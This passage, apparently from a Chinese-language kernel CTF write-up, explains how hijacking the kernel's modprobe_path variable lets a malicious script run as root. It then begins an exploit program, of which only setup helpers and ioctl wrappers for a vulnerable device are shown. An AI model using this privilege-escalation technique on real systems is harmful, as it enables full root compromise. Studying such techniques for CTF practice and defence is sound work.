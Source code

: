 ```assembly
static int call_modprobe(char *module_name, int wait)
{
    //...
    argv[0] = modprobe_path;
    argv[1] = "-q";
    argv[2] = "--";
    argv[3] = module_name;  /* check free_modprobe_argv() */
    argv[4] = NULL;

    info = call_usermodehelper_setup(modprobe_path, argv, envp, GFP_KERNEL,
                     NULL, free_modprobe_argv, NULL);
    if (!info)
        goto free_module_name;

    return call_usermodehelper_exec(info, wait | UMH_KILLABLE);
    //...
```

在这里调用了函数 `call_usermodehelper_exec()` 将 `modprobe_path` 作为可执行文件路径以 root 权限将其执行，这个地址上默认存储的值为`/sbin/modprobe`。

我们不难想到的是：若是我们能够劫持 modprobe_path，将其改写为我们指定的恶意脚本的路径，随后我们再执行一个非法文件，**内核将会以 root 权限执行我们的恶意脚本**。

EXP

```assembly
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>
#include <sys/ioctl.h>
#include <sched.h>


/* bind the process to specific core */
void bindCore(int core){
    cpu_set_t cpu_set;

    CPU_ZERO(&cpu_set);
    CPU_SET(core, &cpu_set);
    sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);

    printf("\033[34m\033[1m[*] Process binded to core \033[0m%d\n", core);
}

long dev_fd;

typedef struct data{
    size_t *ptr;
    unsigned int offset;
    unsigned int length;
}Data;


void allocBuf(int dev_fd, Data *data){
    ioctl(dev_fd, 0x1111111, data);
}


void editBuf(int dev_fd, Data *data){
    ioctl(dev_fd, 0x6666666, data);
}
```